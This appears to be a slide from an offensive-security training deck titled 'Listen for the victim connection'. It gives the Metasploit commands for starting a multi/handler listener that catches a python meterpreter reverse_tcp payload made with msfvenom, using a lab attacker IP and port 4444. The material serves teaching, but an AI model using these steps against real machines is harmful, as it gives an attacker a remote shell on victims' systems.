

# Your turn now - Listen for the victim connection
Open a terminal, enter to the msfconsole (metasploit framework console). Type the following commands:
use multi/handler: tell the metasploit console that you are going to use the multi/handler tool
set PAYLOAD python/meterpreter/reverse_tcp: configure the exploit to work with a reverse_tcp python payload (you created the payload with msfvenom)
set LHOST 10.0.0.10: set the listened IP to the attacker IP
set LPORT 4444: set the listened port to 4444 (like in your payload)
exploit: execute the configured tool.